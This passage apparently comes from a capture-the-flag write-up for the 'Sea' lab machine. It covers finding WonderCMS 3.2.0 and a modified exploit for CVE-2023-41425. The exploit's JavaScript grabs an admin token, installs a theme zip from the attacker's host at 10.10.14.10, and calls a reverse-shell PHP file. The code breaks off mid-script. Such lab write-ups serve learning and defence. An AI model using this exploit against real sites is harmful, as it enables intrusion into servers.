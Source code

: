 ```

This exploration provided valuable insights into what warranted a more thorough investigation. After some detours and aimless wandering, I stumbled upon something intriguing in the ```http://sea.htb/themes/bike/``` directory:

```
css                     [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 120ms]
img                     [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 115ms]
home                    [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 115ms]
404                     [Status: 200, Size: 3341, Words: 530, Lines: 85, Duration: 111ms]
Reports List            [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 112ms]
external files          [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 117ms]
version                 [Status: 200, Size: 6, Words: 1, Lines: 2, Duration: 124ms]
Style Library           [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 110ms]
                        [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 110ms]
LICENSE                 [Status: 200, Size: 1067, Words: 152, Lines: 22, Duration: 114ms]
```

The "version" file indicated "3.2.0," while the "LICENSE" file mentioned “Turboblack.”

Searching the web with these keywords ultimately led me to the "WonderCMS 3.2.0" exploit (CVE-2023-41425), which is hosted in the following [GitHub repository](https://github.com/prodigiousMind/CVE-2023-41425).

To my surprise, this exploit didn’t work initially, leaving me in the dark for a while. After taking a closer look and researching the exploit, I discovered that some paths needed to be adjusted. Additionally, the exploit was designed to download a specific zip file from GitHub. Since HTB boxes cannot access the internet, I had to download this zip file manually [from the following link](https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip), rename it to "whatever.zip," and place it in the same directory where the modified exploit was executed.

Here is how the fixed exploit looks like:

```
# Exploit: WonderCMS XSS to RCE
import sys
import requests
import os
import bs4
if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
else:
  data = '''
// the server has some issue resolving domain name with JavaScript
// we can just provide the target URL as required parameter
var whateverURL = "http://sea.htb"; 
var token = document.querySelectorAll('[name="token"]')[0].value;
// modify the ZIP file path serving on HTTP server
var urlRev = whateverURL+"/?installModule=http://10.10.14.10:8000/whatever.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   // visit rev.php inside the uploaded ZIP file
   xhr4.open("GET", whateverURL+"/themes/whatever/rev.php");
   xhr4.send();
   xhr4.onload = function() {